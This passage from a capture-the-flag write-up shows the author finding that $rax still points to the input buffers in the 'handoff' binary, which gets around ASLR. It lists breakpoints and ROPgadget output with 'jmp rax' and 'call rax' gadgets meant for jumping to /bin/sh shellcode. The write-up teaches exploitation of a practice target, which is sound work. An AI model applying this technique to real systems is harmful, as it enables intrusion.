 At this point I got stuck for quite a while, as I can to the realisation that I didn't yet have any form of infoleak to deal with the assumption that the challenge would be operating under Address Space Layout Randomisation (ASLR) and I had no clue of the absolute addresses of these were on the stack. Which would be required to construct the shellcode (pointer to `"/bin/sh\0"`) and in particular the jump to this shellcode.

Eventually I decided to carefully analyse the register states after completion of the various menu item code blocks, to see if there was any information left around in registers I could use.

I found in all three cases `$rax` was left intact and pointing to our respective buffers of interest. 

    Breakpoints of interest:
      - 0x40126c    = return from scanf(choice)
      - 0x4012f8    = return from fgets(name)     [choice = 1]
      - 0x4013b1    = return from fgets(message)  [choice = 2]
      - 0x4013ed    = return from fgets(feedback) [choice = 3]

    Registers of interest at the above breakpoints;
      1. $rdi = &choice
      2. $rax = entries[total_entries].name
      3. $rax = entries[total_entries].message
      4. $rax = feedback

Which led me to start looking at available ROP gadgets utilising `$rax`.

    $ ROPgadget --binary handoff | grep rax
    0x00000000004014bc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
    0x0000000000401440 : add byte ptr [rax], al ; add byte ptr [rax], al ; pop rbp ; ret
    0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
    0x00000000004011da : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
    0x00000000004014be : add byte ptr [rax], al ; endbr64 ; ret
    0x000000000040113c : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
    0x0000000000401442 : add byte ptr [rax], al ; pop rbp ; ret
    0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
    0x00000000004011d9 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
    0x000000000040113b : add byte ptr cs:[rax], al ; hlt ; nop ; endbr64 ; ret
    0x0000000000401225 : call qword ptr [rax + 0xff3c35d]
    0x000000000040140b : call qword ptr [rax + 0xff3c3c9]
    0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
    0x0000000000401014 : call rax
    0x000000000040149c : fisttp word ptr [rax - 0x7d] ; ret
    0x0000000000401012 : je 0x401016 ; call rax
    0x0000000000401165 : je 0x401170 ; mov edi, 0x404060 ; jmp rax
    0x00000000004011a7 : je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
    0x000000000040116c : jmp rax
    0x0000000000401167 : mov edi, 0x404060 ; jmp rax
    0x00000000004011ec : nop dword ptr [rax] ; endbr64 ; jmp 0x401180
    0x00000000004013a0 : or byte ptr [rax - 0x77], cl ; retf 0x40be
    0x0000000000401166 : or dword ptr [rdi + 0x404060], edi ; jmp rax
    0x0000000000401011 : sal byte ptr [rdx + rax - 1], 0xd0 ; add rsp, 8 ; ret
    0x000000000040105b : sar edi, 0xff ; call qword ptr [rax - 0x5e1f00d]
    0x0000000000401010 : test eax, eax ; je 0x401016 ; call rax
    0x0000000000401163 : test eax, eax ; je 0x401170 ; mov edi, 0x404060 ; jmp rax
    0x00000000004011a5 : test eax, eax ; je 0x4011b0 ; mov edi, 0x404060 ; jmp rax
    0x000000000040100f : test rax, rax ; je 0x401016 ; call rax
    0x00000000004011d8 : wait ; add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
